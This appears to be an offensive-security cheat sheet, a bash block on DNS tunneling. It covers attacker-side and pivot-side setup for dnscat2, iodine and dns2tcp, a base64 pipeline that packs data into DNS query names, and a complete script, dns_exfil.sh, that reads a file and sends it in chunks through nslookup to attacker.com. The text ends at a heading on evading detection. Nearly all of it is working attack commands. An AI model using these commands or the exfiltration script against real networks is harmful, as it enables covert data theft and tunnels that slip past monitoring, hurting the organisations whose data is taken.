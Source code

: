 ```bash
# DNS tunneling tools and setup

# dnscat2 - Popular DNS tunneling tool
# Server setup (attacker machine)
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
gem install bundler
bundle install
ruby dnscat2.rb example.com

# Client setup (pivot machine)
# Download dnscat2 client binary
./dnscat --dns server=attacker.com example.com

# iodine - High-performance DNS tunnel
# Server setup
sudo iodined -f -c -P password 10.0.0.1 tunnel.example.com

# Client setup  
sudo iodine -f -P password tunnel.example.com

# DNS2TCP - Reliable DNS tunneling
# Server configuration
cat > dns2tcpd.conf << 'EOF'
listen = 0.0.0.0
port = 53
user = nobody
chroot = /tmp
domain = tunnel.example.com
resources = ssh:127.0.0.1:22,http:127.0.0.1:80
EOF

dns2tcpd -F -d 1 -f dns2tcpd.conf

# Client usage
dns2tcpc -z tunnel.example.com attacker.com
# Creates local proxy for tunneled services

# Custom DNS tunneling with dig/nslookup
# Encode data in DNS queries
echo "sensitive data" | base64 | tr -d '\n' | sed 's/.\{60\}/&./'g | sed 's/$/\.tunnel\.example\.com/'
# Results in DNS queries like: dGVzdGRhdGE.tunnel.example.com

# Automated DNS exfiltration script
cat > dns_exfil.sh << 'EOF'
#!/bin/bash
FILE=$1
DOMAIN="tunnel.example.com"
SERVER="attacker.com"

while IFS= read -r line; do
    encoded=$(echo "$line" | base64 | tr -d '\n')
    # Split into DNS-safe chunks
    for chunk in $(echo "$encoded" | sed 's/.\{50\}/&\n/g'); do
        nslookup "$chunk.$DOMAIN" "$SERVER" > /dev/null 2>&1
        sleep 1
    done
done < "$FILE"
EOF

# DNS tunneling detection evasion
# Randomize query timing
```